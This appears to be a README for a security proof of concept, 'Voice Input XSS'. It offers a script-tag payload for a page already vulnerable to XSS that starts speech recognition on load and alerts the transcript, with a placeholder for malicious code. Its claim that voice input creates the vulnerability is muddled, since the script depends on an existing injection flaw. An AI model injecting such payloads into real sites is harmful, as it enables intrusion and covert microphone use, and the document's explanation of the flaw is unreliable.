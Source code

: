 # Voice Input XSS

This proof of concept demonstrates how an attacker can exploit a Cross-Site Scripting (XSS) vulnerability using voice input. By leveraging the Web Speech API, an attacker can inject and execute malicious JavaScript code into a vulnerable web page when the user interacts with it using voice commands.

## Description

The provided script utilizes the Web Speech API to listen for voice input from the user. When the recognition detects speech, it captures the transcript and displays it in an alert dialog box. However, an attacker could modify this script to execute arbitrary JavaScript code instead of displaying the transcript.


## Proof of concept
<br>

![image](image.gif)



## Steps to Reproduce

1. Create or identify a web page vulnerable to XSS.
2. Embed the following JavaScript code into the vulnerable web page:

```javascript
<script>
const recognition = new window.webkitSpeechRecognition();
recognition.lang = 'en-US';
recognition.interimResults = false;
recognition.maxAlternatives = 1;

recognition.onresult = function(event) {
    const transcript = event.results[0][0].transcript;
    // Inject malicious code here instead of displaying the transcript
    alert('Transcript: ' + transcript);
    recognition.stop();
};

recognition.onerror = function(event) {
    console.error('Speech recognition error:', event.error);
};

window.addEventListener('DOMContentLoaded', function() {
    recognition.start();
});
</script>
```

3. Ensure that the web page allows access to the Web Speech API.
4. Visit the web page using a browser that supports the Web Speech API (e.g., Google Chrome).
5. Interact with the web page by speaking into the microphone. The script will capture your speech and execute any injected JavaScript code.
